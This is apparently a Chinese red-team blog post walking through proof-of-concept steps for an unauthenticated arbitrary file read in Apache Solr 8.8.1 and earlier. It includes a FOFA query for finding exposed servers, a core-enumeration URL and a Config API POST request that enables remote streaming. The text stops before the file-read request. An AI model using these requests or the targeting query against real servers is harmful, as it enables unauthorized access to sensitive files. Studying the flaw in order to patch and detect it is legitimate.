 #  Apache Solr 任意文件读取漏洞（poc编写 ）   
原创 LULU  红队蓝军   2024-08-30 18:03  
  
**本篇主要是针对poc的编写**  
## 漏洞介绍   
  
Apache Solr 存在任意文件读取漏洞，攻击者可以在未授权的情况下获取目标服务器敏感文件  
  
主要原因：由于未开启身份验证，导致未经身份验证的攻击者可利用Config API打开requestDispatcher.requestParsers.enableRemoteStreaming开关，从而使攻击者可以在未授权的情况下获取目标服务器敏感文件。  
  
影响版本：Apache Solr <= 8.8.1  
  
fofa语法：app="Apache-Solr" && country="CN" && status_code="200"  
## 漏洞复现   
  
Solr下载地址：自行下载对应满足版本http://archive.apache.org/dist/lucene/solr/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibuAJmdCfgkHPL1dvOja2VHgibRvj2iaWQxjJAYiaCVCibZqHSbRO4KSEw3Ww/640?wx_fmt=png&from=appmsg "")  
  
**第一步、获取core的信息**  
```
http://xxx.xxx.xxx.xxx/solr/admin/cores?indexInfo=false&wt=json

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibubFm3fQpCSyzibfzNIshD6mJiavbE0Pjo1DVGF60h6bXicO7ko0yc2pcNA/640?wx_fmt=png&from=appmsg "")  
  
**第二步、依据core_name构造config包**  
```
POST /solr/demo/config HTTP/1.1
Host: ip:8983
Content-Length: 82
Cache-Control: max-age=0 
Upgrade-Insecure-Requests: 1 
Origin: http:/ip:89833 
Content-Type: application/json 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82Safari/537.36 
Accept:text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 
Referer: http://ip:8983/solr/demo/config
Accept-Encoding: gzip, deflate 
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6 
Connection: close

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6c5OxTk0IlI6JcthdNaZibuBbCbKibcguUJpCrxiaaaaQaJ01vtENvznmnLgJ2AUvQO9199cKqtanIA/640?wx_fmt=png&from=appmsg "")  
  